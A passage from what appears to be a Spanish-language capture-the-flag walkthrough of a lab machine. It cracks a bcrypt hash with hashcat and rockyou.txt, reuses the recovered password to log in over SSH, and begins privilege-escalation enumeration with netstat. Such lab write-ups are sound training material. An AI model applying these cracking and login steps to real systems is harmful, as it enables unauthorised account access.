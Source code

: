 Identifico el hash con hashcat y veo que se trata de bcrypt que utiliza el modo 3200.

```bash
hashcat hash
============================================================================================================
   # | Name                                                       | Category
======+============================================================+========================================
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Comme
```

Utiliza hashcat para crackear el hash con el modo 3200 y obtengo la contraseña.

```bash
hashcat -a 0 -m 3200 hash /usr/share/wordlists/rockyou.txt
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance
```

Intento acceder via SSH con la contraseña obtenida probando con los usuarios root, amay y geo, permitiendome acceder con el usuario amay.

```bash
ssh amay@10.10.11.28
amay@10.10.11.28's password:
amay@sea:~$ whoami
amay
```

### Privilege escalation

Utilizo el comando netstat para mostrar información sobre las conexiones de red y puertos en uso

```bash
www-data@sea:/$ netstat -tulpen
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode      PID/Program name    
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      0          91980      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      0          27595      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      101        26746      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      0          28129      -                   
tcp        0      0 127.0.0.1:55961         0.0.0.0:*               LISTEN      1001       30315      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      0          28131      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           101        26745      -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           0          22814      -
```
